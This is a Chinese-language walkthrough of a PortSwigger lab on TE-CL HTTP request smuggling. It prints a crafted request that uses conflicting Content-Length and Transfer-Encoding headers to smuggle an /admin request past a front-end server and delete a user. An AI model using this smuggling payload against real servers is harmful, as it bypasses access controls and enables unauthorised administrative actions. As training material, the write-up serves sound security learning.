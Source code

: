 ```yaml
---
title: "TE-CL绕过前端服务器安全控制"
id: zhfly3481
---
```


#### TE-CL绕过前端服务器安全控制

同上面实验相反，前端服务器识别`Transfer-Encoding`，后端服务器识别`Content-Length`

**实验地址**：https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl

**实验描述**

本实验包含一个前端和后端服务器，后端服务器不支持`Transfer-Encoding`分块传输。现有一个管理员面板/admin，但被限制直接访问。

要完成本实验，需向后端服务器走私一个http请求以访问到管理员系统并删除名为`carlos`的用户。

**实验过程**

构造走私请求，这里构造请求同上面实验有些差别

```
POST / HTTP/1.1
Host: acc11f291f28854680882dae00df00bf.web-security-academy.net
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.80 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=DHsv0QPpKqKpsxRdjanyv0OdA5CUY9cn
Content-Length: 4
Transfer-Encoding: chunked

60

POST /admin HTTP/1.1

Content-Type: application/x-www-form-urlencoded

Content-Length: 12 `x=1

0` 
```

构造请求，提示需要添加`Host:localhost`

![image](../img/537d9c4ae8d3d2d97c3e6c00c69f0f71.png)

如果对此处请求体构造有疑问可以查看chunk传输数据的格式

> chunk传输数据格式如下，其中size的值由16进制表示。
> 
> ```
> >[chunk size][\r\n][chunk data][\r\n][chunk size][\r\n][chunk data][\r\n][chunk size = 0[\r\n][\r\n]]
> > 
> ```

因而这里60对应的十进制是：96。恰好等于60以下到0以上数据的长度（包括\r\n）

此处需说明一点，请求包中chunk分块传输的数据库长度必须正确，同时走私请求中的Content-Length长度也需保证正确，否则会提示无法识别或非法请求。

![image](../img/ecf956f206291c305e7b37c4e47e95d9.png)

添加`Host:localhost`并修改数据块长度后重新发包

![image](../img/ce29f57f447e2ac9d215268f246cb319.png)

修改走私请求为GET方式，多次发送最终成功删除用户。

![image](../img/7525b74fd04d03121b7db881f9846668.png)